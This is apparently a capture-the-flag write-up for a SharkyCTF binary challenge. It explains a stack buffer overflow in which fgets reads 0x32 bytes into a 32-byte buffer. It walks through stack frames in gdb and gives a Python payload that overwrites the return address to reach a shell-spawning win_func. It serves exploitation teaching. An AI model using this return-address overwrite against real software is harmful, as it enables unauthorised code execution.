





# Give Away 0

> Home sweet home.
>
> nc sharkyctf.xyz 20333


## Description

For this challenge we are given a binary file. Let's dissassemble it with [Ghidra](https://ghidra-sre.org/). 

The `main` function is the following:

```c
undefined8 main(void)
{
  init_buffering();
  vuln();
  return 0;
}
```

Let's have a look at `vuln`. 

```c
void vuln(void)
{
  char local_28 [32];
  
  fgets(local_28,0x32,stdin);
  return;
}
```

This is a straightforward buffer overflow: we have a buffer with size 32, and we can input 0x32 characters. Therefore we can overflow the buffer to execute another piece of code. By analysing the binary with Ghidra, we also remark that there is a `win_func` function, which spawns a shell.

```c 
void win_func(void)
{
  execve("/bin/sh",(char **)0x0,(char **)0x0);
  return;
}
```

The objective is to overflow the buffer to reach this function.

## Solution

### Theory

Let's recall how a program works. There are different memory regions:
- the stack: this is where local variables and other runtime information go
- the heap: this is where memory is dynamically allocated (with malloc, ...)
- data: this is where global variables are
- text: this is where the executable machine code is.

There are also registers which are used to store information close to the CPU (where computations are performed). Some special registers:
- `esp`: current top of stack
- `ebp`: current bottom of stack
- `eip`: current instruction.

For instance, let's debug our program with gdb. We look at the assembly code of `main`.



At `main+19` there is the call to `vuln` function. At this point, `eip` is `0x4006fa`. When `callq vuln` is executed, the instruction pointer `eip` will jump to the address of `vuln`, in this case `0x4006c4`. However, when `vuln` has been executed, the program needs to know that it needs to return to `main`, and specifically to the next instruction (at address `0x4006ff`). Therefore this address is pushed on the stack.

Now when the program enters `vuln`:



You see the first two instructions `push %rbp; mov %rsp,%rbp`. They are used to create a new stack frame: the old bottom of stack is pushed on the stack, so we can remember it, and now the current top of stack becomes the bottom of the stack. Those operations are reversed with `leaveq` at the end of the function.

Next instruction `sub $0x20,%rsp` creates our array on the stack: it increases the stack size of 0x20=32 bytes. The next five instructions are used to call `fgets` with the correct parameters.

At this point, our stack looks like this:



Recall that calling the function pushed on the stack the return address (next `eip`), the old `ebp`. Then our buffer was allocated on the stack. However, as said earlier, we can overflow it: if we enter more characters than its actual size, we will end up overwriting the old `ebp` and the return address. This is exactly what we want to do: we will overwrite the return address and replace it with the address of `win_func`.

### Attack

Using `file`, we see we have a 64 bits program. Therefore `ebp` and the return address are coded on 64 bits. Let's verify locally if our exploit works.

First let's create a simple payload:

```python
payload = b'A'*32 + b'11112222333344445555'
with open("out", "wb") as f:
    f.write(payload)
```

We fill the buffer with A, then add some characters that we can recognize easily. We run our program in gdb with this input (using `r < out` in gdb). We also put a breakpoint after the call to fgets (`b * vuln+32`).



This is the stack seen in gdb. So let's replace the return address with the address of `win_func` (we can find it with `print win_func` in gdb).

```python
payload = b'A'*32 + b'11112222' + b'\xa7\x06\x40\x00\x00\x00\x00\x00'
with open("out", "wb") as f:
    f.write(payload)
```

Finally we launch our exploit.



Flag: `shkCTF{#Fr33_fL4g!!_<3}`